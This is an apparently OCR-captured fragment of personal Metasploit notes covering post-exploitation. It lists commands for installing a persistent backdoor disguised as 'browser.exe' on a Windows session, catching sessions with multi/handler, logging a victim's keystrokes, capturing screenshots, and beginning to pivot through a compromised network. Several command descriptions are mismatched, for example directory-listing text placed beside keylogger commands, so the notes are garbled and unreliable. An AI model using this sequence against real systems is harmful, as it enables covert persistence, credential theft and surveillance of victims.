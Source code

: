 `set exe::custom <backdoor location>`

`exploit`

start doing the operation 

`use exploit/windows/local/persistence`

`show options`

`set EXE_NAME browser.exe`

`set session <session id>`

`show options`

every module has advanced option , to see the advanced options of that particular module run 

`show advanced`

`set EXE::Custom <backdoor location>`

`show advanced`

`exploit`

`sessions -l`

`sessions -K`

`use exploit/multi/handler`

`show options`

`exploit`

### logging all mouse/keyboard events

shows current working directory

`keyscan_start`

lists fils in the current working directory

`keyscan_dump`

changes working directory to location

`keyscan_stop`

taking screenshot of the target computer

`screenshot`

### pivoting

use the hacked device as a pivot, then try to gain access to other devices in the network, three machines work here - attacker, hacked, target

### using auto route for pivoting

for using it
